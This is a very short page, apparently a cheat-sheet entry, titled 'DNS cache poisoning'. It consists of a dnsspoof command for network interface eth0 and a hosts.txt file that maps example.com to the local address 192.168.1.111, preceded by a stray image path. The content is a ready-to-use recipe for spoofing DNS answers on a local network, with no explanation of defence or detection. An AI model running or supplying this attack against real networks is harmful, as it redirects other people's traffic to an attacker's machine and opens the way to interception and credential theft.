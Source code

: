 # DNS cache poisoning

`dnsspoof -i eth0 -f hosts.txt`

hosts.txt
```
192.168.1.111 example.com
```
